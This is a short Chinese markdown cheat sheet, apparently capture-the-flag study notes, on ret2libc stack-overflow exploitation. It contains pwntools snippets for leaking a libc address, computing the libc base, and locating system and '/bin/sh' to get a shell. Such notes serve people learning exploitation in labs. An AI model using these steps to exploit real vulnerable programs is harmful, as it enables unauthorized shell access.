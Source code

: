 ```yaml
---
title: ret2libc
category: 栈溢出
---
```


# # 一般步骤

1. 泄露 libc 地址
2. 计算 libc 基址与其他函数的地址
3. get shell

# # 代码片段

## ## 接收泄露信息

### ### libc 地址
- 32 位程序

```python
address = u32(io.recvuntil('\xf7')[-4:])
log.success('address -> ' + hex(address))
```

- 64 位程序

```python
address = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
log.success('address -> ' + hex(address))
```

## ## 计算 libc 基址与其他函数的地址

- ELF

```python
libc_base = address - libc.sym['function_name']
system_addr = libc_base + libc.sym['system']
str_bin_sh = libc_base + libc.search('/bin/sh').next()
log.success('libc_base -> ' + hex(libc_base))
```

- LibcSearcher

```python
libc = LibcSearcher('function_name', address)
libc_base = address - libc.dump('function_name')
system_addr = libc_base + libc.dump('system')
str_bin_sh = libc_base + libc.dump('str_bin_sh')
log.success('libc_base -> ' + hex(libc_base))
```

# # 注意事项

- 下载题目文件时应注意文件中是否提供了相应的 libc 文件。若已提供相应的 libc 文件，则在调试时使用 pwntools 的 ELF 函数直接绑定该 libc。若没有提供相应的 libc 文件，则需要使用 LibcSearcher 库进行 libc 匹配。